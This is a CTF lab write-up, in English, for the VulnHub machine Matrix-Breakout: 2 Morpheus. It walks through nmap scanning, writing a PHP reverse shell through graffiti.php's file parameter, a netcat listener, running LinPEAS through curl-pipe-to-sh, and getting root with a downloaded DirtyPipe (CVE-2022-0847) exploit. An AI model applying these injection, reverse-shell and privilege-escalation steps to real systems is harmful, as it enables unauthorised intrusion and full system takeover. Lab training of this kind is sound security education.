




# Matrix-Breakout: 2 Morpheus

**Complete solution with documentation in Spanish and English**

This is the second machine in the Matrix-Breakout series, subtitled Morpheus:1. It's themed as a throwback to the first Matrix movie. You play as Trinity, trying to investigate a computer on the Nebuchadnezzar that Cypher has locked everyone else out from, which holds the key to a mystery.

**Difficulty**: Medium-Hard

**Machine Link**: [VulnHub - Matrix-Breakout: 2 Morpheus](https://www.vulnhub.com/entry/matrix-breakout-2-morpheus,757/)

---

## 1. Initial Configuration

### 1.1 Import the Machines

We will start by importing both machines and configuring them on the same virtual network.


### 1.2 Target IP Identification

With the machines up and running, we need to identify the target machine's IP address within our local network. For this, we will use `arp-scan`, a tool that sends ARP packets to all IP addresses on the local network and listens for responses, allowing us to discover active devices.

```bash
sudo arp-scan -l
```

**Command explanation:**
- `-l`: Scans the local network (equivalent to `--localnet`)
- Requires administrator privileges (`sudo`) to send ARP packets

The result will show us all active IP addresses on the network, including our attacking machine and the target machine (Morpheus).


### 1.3 Connectivity Verification

Once we have identified the target IP, we verify that the machine is active and responds to network requests. This confirms that we can establish communication with the target before beginning port scanning.

```bash
ping 192.168.116.129
```

**What does ping do?**
- Sends ICMP (Internet Control Message Protocol) packets to the target machine
- If we receive responses, the machine is active and accessible on the network
- Helps us confirm that there are no network connectivity issues before continuing


---

## 2. Port Scanning

### 2.1 Initial Nmap Scan

Now we proceed with port scanning to identify what services are running on the target machine. This is a crucial step as each open port represents a potential entry point.

```bash
nmap --open -vv -T5 -p- 192.168.116.129
```

**Parameter explanation:**
- `--open`: Shows only ports that are open (not filtered or closed)
- `-vv`: Verbose mode (very detailed) to see scan progress
- `-T5`: Aggressive timing (faster, but may be detected more easily)
- `-p-`: Scans all ports (1-65535)

This scan will give us a list of all open ports, which are our potential entry points for exploitation.


### 2.2 Detailed Service Scan

Once we have identified the open ports, we perform a more detailed scan to obtain specific information about the services running on those ports. This includes software versions, detection scripts, and service banners.

```bash
nmap -sC -sV -p 22,80,81 192.168.116.129
```

**Parameter explanation:**
- `-sC`: Runs default Nmap detection scripts (equivalent to `--script=default`)
- `-sV`: Service version detection
- `-p 22,80,81`: Scans only the specific ports identified in the previous scan

**Scan Results:**
- **Port 22**: SSH (Secure Shell) - Remote administration protocol
- **Port 80**: HTTP (HyperText Transfer Protocol) - Web server
- **Port 81**: HTTP - Another web server (possibly an alternative service or proxy)

This information is crucial because it allows us to identify specific software versions that may have known vulnerabilities.


---

## 3. Web Enumeration

### 3.1 Port 80 Exploration

Port 80 is the standard port for HTTP services. We access it through the web browser to see what content the server is serving. This is our first direct interaction with the target service and allows us to identify the web application we are attacking.

Open the browser and access:
```
http://192.168.116.129
```

**What are we looking for?**
- Type of web application (CMS, framework, custom application)
- Technologies used (PHP, JavaScript, etc.)
- Possible clues or hidden messages
- Links or forms that could be entry points


And with this, our web enumeration phase and infiltration game begins.

### 3.2 Source Code Analysis

Source code HTML analysis is fundamental in web enumeration. Many web applications expose sensitive information in HTML comments, JavaScript, or in the source code that is not visible in the normal page rendering.

**What are we looking for in the source code?**
- HTML comments with sensitive information
- Hidden paths or URLs
- Hardcoded credentials (although uncommon)
- References to files or directories
- Tokens or API keys
- Information about technologies and frameworks used

To view the source code:
- **Chrome/Firefox**: Right-click → "View Page Source" or `Ctrl+U`
- **Or use**: `curl http://192.168.116.129` from the terminal


### 3.3 robots.txt Review

The `robots.txt` file is a standard that tells search engine crawlers which directories should not be indexed. However, in security, this file can reveal directories and files that the administrator does not want to be public, making it a valuable source of information.

Access:
```
http://192.168.116.129/robots.txt
```

**What are we looking for?**
- Hidden or protected directories
- Configuration files
- Administration paths
- Backup files

In this case, `robots.txt` is present and provides us with a security message. Although it doesn't reveal hidden paths directly, it confirms that we are dealing with a configured web server.


### 3.4 Directory Brute Force

When source code and common files don't reveal useful information, we resort to directory brute force. This technique involves testing thousands of common directory and file names to discover hidden or undocumented paths.

**Common tools for directory brute force:**
- **dirBuster**: Graphical tool with GUI
- **gobuster**: Faster command-line tool
- **dirb**: Another command-line alternative
- **wfuzz**: Allows more advanced fuzzing

**How does it work?**
1. Takes a wordlist with common directory and file names
2. Tests each word as a path: `http://IP/word`
3. Analyzes HTTP responses (status codes 200, 403, 404, etc.)
4. Reports found results

For this, we will use our dirBuster tool and its included wordlists:


**Typical configuration:**
- Target URL: `http://192.168.116.129`
- Threads: 10-20 (to avoid overloading the server)
- Wordlist: Common list like `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We will start it and wait for it to finish searching for directories:




**Result**: We found a directory called `graffiti.php` that responds with HTTP status code 200 (success), indicating that the file exists and is accessible. This is an important finding that deserves deeper investigation.


### 3.5 graffiti.php Analysis

We access `http://192.168.116.129/graffiti.php` and find an interactive web application. This page allows users to send messages that are stored and displayed on screen.

**Functionality analysis:**
- The application has a form where we can enter messages
- Messages are processed on the server
- Messages are displayed in a list on the page
- This suggests there is a backend process that handles data storage

**Possible attack vectors:**
- **SQL Injection**: If data is stored in a database without sanitization
- **File Upload**: If we can upload malicious files
- **Command Injection**: If the server processes data insecurely
- **PHP Code Injection**: If data is evaluated as PHP code

Each message we write in the message box is processed by the server and placed in a list that appears on screen. We need to analyze how this information is processed.


---

## 4. Exploitation

### 4.1 Vulnerability Identification

To understand how the application processes our data, we need to intercept HTTP requests between our browser and the server. This is where Burp Suite becomes essential.

**What is Burp Suite?**
Burp Suite is an integrated platform for performing web application security testing. Unlike Wireshark (which captures all network traffic), Burp Suite is specifically designed to intercept, modify, and analyze HTTP/HTTPS traffic between the browser and the web server.

**Burp Suite Configuration:**
1. Start Burp Suite and activate the proxy (default at `127.0.0.1:8080`)
2. Configure the browser to use Burp as proxy
3. Install Burp's CA certificate to intercept HTTPS
4. Activate request interception

**Analysis process:**
1. Send a test message through `graffiti.php`
2. Burp Suite intercepts the HTTP request
3. Analyze the parameters sent
4. Modify the request to test different attack vectors




**Critical finding:**
When analyzing the intercepted request, we observe that the application uses two important parameters:
- **`message`**: Contains the message we send
- **`file`**: Specifies the file where the message will be saved (by default a `.txt` file)

As we can observe, all data is saved in a txt file that will be processed by PHP. This is the key point: **if we can control the `file` parameter and change the extension to `.php`, we can inject PHP code that will be executed by the server**.


### 4.2 Reverse Shell Preparation

**What is a Reverse Shell?**
A reverse shell is a remote shell connection where the target machine (victim) connects back to our attacking machine, instead of us connecting directly to it. This is useful when there are firewalls blocking incoming connections, but they allow outgoing connections.

**Why PHP Reverse Shell?**
Since we discovered that we can inject PHP code by changing the file extension, we can create a malicious PHP file that:
1. Executes on the server
2. Establishes a TCP connection to our machine
3. Provides us with an interactive shell on the server

**Preparation:**
We need to download a PHP reverse shell script. A reliable and widely used version can be found at:

**Repository**: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

**Necessary modifications:**
Before using the script, we must edit the following lines:
```php
$ip = 'YOUR_ATTACKER_IP';  // IP of our Kali machine
$port = 9999;              // Port where we will listen
```

**Important**: Make sure to use the correct IP of your attacking machine (not the target IP).

### 4.3 Reverse Shell Injection

Now we are going to exploit the vulnerability we discovered. The plan is:

1. **Intercept the request** in Burp Suite when we send a message
2. **Modify the `message` parameter** to contain the complete reverse shell code in PHP
3. **Change the `file` parameter** from `.txt` to `.php` so the server executes the code
4. **Send the modified request** to the server

**Detailed process:**

**Step 1: Prepare the payload**
Copy all the content of the `php-reverse-shell.php` file (already modified with our IP and port).

**Step 2: Intercept and modify in Burp Suite**
1. Send any message from the browser
2. Burp Suite intercepts the request
3. In the "Raw" or "Params" tab, we modify:
   - **`message` parameter**: Replace the message with the complete reverse shell code
   - **`file` parameter**: Change from `message.txt` to `shell.php` (or any name with `.php` extension)

**Step 3: Send the modified request**
1. Click "Forward" or deactivate interception
2. The server will process the request and create the PHP file with our malicious code

**⚠️ Critical warning**: 
- Make sure the IP in the reverse shell is correct (IP of your attacking machine, NOT the target IP)
- Verify that the port is available and not blocked by firewall
- An error here can corrupt files on the server or cause problems
- In this example, due to a previous error, the Morpheus machine IP changed to 192.168.116.130


### 4.4 Listener Setup

Before the reverse shell executes, we need to have an active listener on our attacking machine to receive the incoming connection from the server.

**What is Netcat?**
Netcat (nc) is a network tool that can read and write data across network connections using TCP or UDP. In this case, we use it as a listener to receive the reverse shell connection.

**Listener configuration:**
On our attacking machine (Kali Linux), we execute:

```bash
nc -lnvp 9999
```

**Parameter explanation:**
- `-l`: Listen mode, waits for incoming connections
- `-n`: Does not resolve DNS names, uses only IP addresses (faster)
- `-v`: Verbose mode (shows detailed information)
- `-p 9999`: Port where we will listen (must match the port in the reverse shell)

**Reverse shell activation:**
Once the listener is active, we need to activate the PHP file we created. For this:
1. Access the file in the browser: `http://192.168.116.129/shell.php`
2. Or make any request that causes the server to execute our PHP file

When we make any other request, we will receive the connection:


**Success!** As we can observe, we now have an interactive shell on the target server. This means we have compromised the machine and have access at user level (generally the web server user, such as `www-data`).


### 4.5 First Flag Obtained

With shell access, we begin exploring the system to find the first flag. Flags in CTF machines are generally found in:

- Current user's home directory
- Common directories like `/home`, `/var/www`, `/tmp`
- Files with obvious names like `flag.txt`, `user.txt`, `proof.txt`

**Useful commands for searching:**
```bash
pwd                    # View current directory
whoami                 # View current user
ls -la                 # List files (including hidden ones)
find / -name "flag*"   # Search for files containing "flag" in the name
find / -name "*flag*"  # Broader search
cat flag.txt           # Read the flag file
```

And with this, we obtain our first flag (generally the user flag):





**Note**: The first flag is usually accessible with the current user's privileges. To obtain the second flag (root flag), we will need to escalate privileges.

---

## 5. Privilege Escalation

### 5.1 LinPEAS Execution

To obtain the second flag, we need root access. This requires escalating our privileges from the current user (probably `www-data`) to root.

**What is privilege escalation?**
Privilege escalation is the process of gaining access to resources that are normally restricted to the current user. In Linux, this generally means obtaining root access (user with full administrative privileges).

**What is LinPEAS?**
LinPEAS (Linux Privilege Escalation Awesome Script) is an automated script that searches for multiple privilege escalation vectors on Linux systems. It scans:

- Files with misconfigured SUID/SGID permissions
- Credentials in configuration files
- Services running with elevated privileges
- Kernel vulnerabilities
- Command history with sensitive information
- Vulnerable scheduled tasks (cron jobs)
- Environment variables with sensitive information
- And much more...

**Repository**: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

**Execution:**
The easiest way is to download and execute the script directly from the internet:

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

**Command explanation:**
- `curl -L`: Downloads the file (the `-L` option follows redirects)
- `| sh`: Pipes the downloaded content directly to the shell interpreter for execution

**Alternative (if there's no internet connection):**
If the target machine doesn't have internet access, we can:
1. Download linpeas.sh on our attacking machine
2. Start an HTTP server: `python3 -m http.server 8000`
3. From the target machine: `wget http://YOUR_IP:8000/linpeas.sh`
4. Execute: `bash linpeas.sh`


### 5.2 Results Analysis

LinPEAS generates extensive output with a lot of information. We need to carefully analyze the results to identify privilege escalation vectors.

**Important sections to review:**
1. **SUID/SGID binaries**: Binaries that execute with elevated privileges
2. **Writable files**: Files where we have write permissions
3. **Kernel version**: Kernel version (may have known vulnerabilities)
4. **Sudo version**: Sudo version (may have vulnerabilities)
5. **Cron jobs**: Scheduled tasks that may be exploitable
6. **Environment variables**: Environment variables with sensitive information
7. **Docker/containers**: If there are containers, they can be entry points
8. **Processes**: Processes running with elevated privileges

**In this specific case:**
The script will show us information about kernel vulnerabilities. We will specifically look for:
- Kernel version
- Known CVEs (Common Vulnerabilities and Exposures) for that version
- Publicly available exploits

This script will give us a lot of useful information, but we will focus on the open or unpatched exploits that the machine has, especially kernel vulnerabilities that can be exploited directly.




### 5.3 DirtyPipe Exploitation (CVE-2022-0847)

**What is DirtyPipe?**
DirtyPipe (CVE-2022-0847) is a critical vulnerability in the Linux kernel that allows unprivileged users to overwrite data in read-only files, even files belonging to root. This vulnerability affects Linux kernels from version 5.8 to 5.16.11.

**How does it work?**
The vulnerability exists in how the kernel handles pipes and page copying. An attacker can:
1. Create a pipe
2. Fill the pipe with malicious data
3. Use the vulnerability to overwrite system files
4. Modify files like `/etc/passwd` or create SSH keys to obtain root access

**Why is it dangerous?**
- Does not require user interaction
- Can be exploited by unprivileged users
- Allows obtaining root access
- Is relatively easy to exploit

**Exploitation:**
From all the vectors identified by LinPEAS, we find that this machine is vulnerable to DirtyPipe. We proceed to exploit it:

```bash
cd /var/www/html
wget https://raw.githubusercontent.com/r1is/CVE-2022-0847/main/Dirty-Pipe.sh
chmod +x Dirty-Pipe.sh
bash Dirty-Pipe.sh
```

**Command explanation:**
1. `cd /var/www/html`: Move to a directory where we have write permissions
2. `wget ...`: Download the exploit from GitHub
3. `chmod +x Dirty-Pipe.sh`: Give execute permissions to the script
4. `bash Dirty-Pipe.sh`: Execute the exploit

**Expected result:**
If the exploit is successful, we should obtain a shell with root privileges. The exploit generally works by modifying `/etc/passwd` to create a user with UID 0 (root) or modifying root's password.


### 5.4 Root Access Verification

After executing the exploit, we verify that we indeed have root access. There are several ways to verify this:

**Verification commands:**
```bash
whoami          # Should show "root"
id              # Should show uid=0(root) gid=0(root)
cd /root        # Should allow us to access the /root directory (only root can do this)
```

The `/root` directory is the home directory of the root user and is only accessible by the root user. If we can enter and list its contents, we confirm that we have root privileges.

We verify by entering /root:


**Success!** We have successfully escalated our privileges to root. Now we can access any file on the system, including the second flag.

### 5.5 Second Flag Obtained

With root access, we can now access the second flag, which is generally found in:
- `/root/flag.txt`
- `/root/proof.txt`
- `/root/root.txt`
- Or in some file within the `/root` directory

**Commands to find the flag:**
```bash
ls -la /root              # List contents of root directory
cat /root/flag.txt        # Read the flag if it exists
find /root -name "*flag*" # Search for files with "flag" in the name
```

And we obtain the second and final flag (root flag):


**Machine completed!** We have obtained both flags (user flag and root flag), which means we have completely compromised the Matrix-Breakout: 2 Morpheus machine.

---

## Summary

This machine has allowed us to practice:

1. **Network and port scanning** with `arp-scan` and `nmap`
2. **Web enumeration** with source code analysis and directory brute force
3. **Vulnerability exploitation** through PHP reverse shell injection
4. **Privilege escalation** using linPEAS and the DirtyPipe exploit (CVE-2022-0847)

---

## References

- **Original Article**: [Matrix Breakout 2 Morpheus - Medium](https://medium.com/@mithunachary21/matrix-breakout-2-morpheus-6c9f4b73318d)
- **PHP Reverse Shell**: https://github.com/pentestmonkey/php-reverse-shell
- **LinPEAS**: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
- **DirtyPipe Exploit**: https://raw.githubusercontent.com/r1is/CVE-2022-0847/main/Dirty-Pipe.sh
- **CVE-2022-0847**: https://dirtypipe.cm4all.com/

---

## Final Notes

- Make sure to have the machines on the same virtual network
- Be careful when modifying parameters in Burp Suite to avoid damaging the target machine
- Privilege escalation steps may vary depending on the specific machine configuration
